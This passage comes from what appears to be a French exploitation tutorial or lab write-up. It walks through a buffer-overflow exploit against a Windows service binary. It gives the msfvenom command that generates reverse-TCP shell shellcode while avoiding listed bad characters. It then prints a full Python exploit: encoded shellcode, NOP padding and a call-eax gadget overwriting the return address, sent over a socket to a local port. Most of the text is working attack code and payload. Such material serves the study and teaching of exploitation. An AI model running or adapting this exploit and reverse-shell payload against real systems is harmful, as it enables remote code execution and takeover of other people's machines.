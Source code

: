 Ici j'ai mis un breakpoint sur l'instruction ret dans *_f3* puisque c'est là où le détournement de l'exécution aura lieu.

Il nous faut un shellcode et comme il y a différents caractères interdits autant s'en remettre à Metasploit qui utilisera des endodeurs pour obtenir un shellcode valide :

```bash
msfvenom -a x86 -b '\x2d\x2e\x46\x47\x59\x5e\x60\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
```

Il faut aussi choisir par quoi on écraser l'adresse de retour. A l'aide de [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) je trouve facilement une instruction dans le binaire qui fait un `call eax`. Il faut donc passer notre shellcode en début de payload :

```python
import socket

# msfvenom -a x86 -b '\x2d\x2e\x46\x47\x59\x5e\x60\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
shellcode =  b""
shellcode += b"\x33\xc9\xb1\x51\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73"
shellcode += b"\x13\xe8\xf7\xe4\xc1\x83\xeb\xfc\xe2\xf4\x14\x1f\x66"
shellcode += b"\xc1\xe8\xf7\x84\x48\x0d\xc6\x24\xa5\x63\xa7\xd4\x4a"
shellcode += b"\xba\xfb\x6f\x93\xfc\x7c\x96\xe9\xe7\x40\xae\xe7\xd9"
shellcode += b"\x08\x48\xfd\x89\x8b\xe6\xed\xc8\x36\x2b\xcc\xe9\x30"
shellcode += b"\x06\x33\xba\xa0\x6f\x93\xf8\x7c\xae\xfd\x63\xbb\xf5"
shellcode += b"\xb9\x0b\xbf\xe5\x10\xb9\x7c\xbd\xe1\xe9\x24\x6f\x88"
shellcode += b"\xf0\x14\xde\x88\x63\xc3\x6f\xc0\x3e\xc6\x1b\x6d\x29"
shellcode += b"\x38\xe9\xc0\x2f\xcf\x04\xb4\x1e\xf4\x99\x39\xd3\x8a"
shellcode += b"\xc0\xb4\x0c\xaf\x6f\x99\xcc\xf6\x37\xa7\x63\xfb\xaf"
shellcode += b"\x4a\xb0\xeb\xe5\x12\x63\xf3\x6f\xc0\x38\x7e\xa0\xe5"
shellcode += b"\xcc\xac\xbf\xa0\xb1\xad\xb5\x3e\x08\xa8\xbb\x9b\x63"
shellcode += b"\xe5\x0f\x4c\xb5\x9f\xd7\xf3\xe8\xf7\x8c\xb6\x9b\xc5"
shellcode += b"\xbb\x95\x80\xbb\x93\xe7\xef\x08\x31\x79\x78\xf6\xe4"
shellcode += b"\xc1\xc1\x33\xb0\x91\x80\xde\x64\xaa\xe8\x08\x31\x91"
shellcode += b"\xb8\xa7\xb4\x81\xb8\xb7\xb4\xa9\x02\xf8\x3b\x21\x17"
shellcode += b"\x22\x73\xab\xed\x9f\x24\x69\xd0\xf6\x8c\xc3\xe8\xe6"
shellcode += b"\xb8\x48\x0e\x9d\xf4\x97\xbf\x9f\x7d\x64\x9c\x96\x1b"
shellcode += b"\x14\x6d\x37\x90\xcd\x17\xb9\xec\xb4\x04\x9f\x14\x74"
shellcode += b"\x4a\xa1\x1b\x14\x80\x94\x89\xa5\xe8\x7e\x07\x96\xbf"
shellcode += b"\xa0\xd5\x37\x82\xe5\xbd\x97\x0a\x0a\x82\x06\xac\xd3"
shellcode += b"\xd8\xc0\xe9\x7a\xa0\xe5\xf8\x31\xe4\x85\xbc\xa7\xb2"
shellcode += b"\x97\xbe\xb1\xb2\x8f\xbe\xa1\xb7\x97\x80\x8e\x28\xfe"
shellcode += b"\x6e\x08\x31\x48\x08\xb9\xb2\x87\x17\xc7\x8c\xc9\x6f"
shellcode += b"\xea\x84\x3e\x3d\x4c\x14\x74\x4a\xa1\x8c\x67\x7d\x4a"
shellcode += b"\x79\x3e\x3d\xcb\xe2\xbd\xe2\x77\x1f\x21\x9d\xf2\x5f"
shellcode += b"\x86\xfb\x85\x8b\xab\xe8\xa4\x1b\x14"

# Utilise l'adresse d'une instruction déjà présente dans le binaire
# qui saute sur l'adresse contenue dans EAX
nop_call_eax = b"\x1f\x21\x40\x00"

buffer = shellcode + b"\x90" * (1702 - len(shellcode)) + nop_call_eax * 10
sock = socket.socket()
sock.connect(("127.0.0.1", 2371))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```
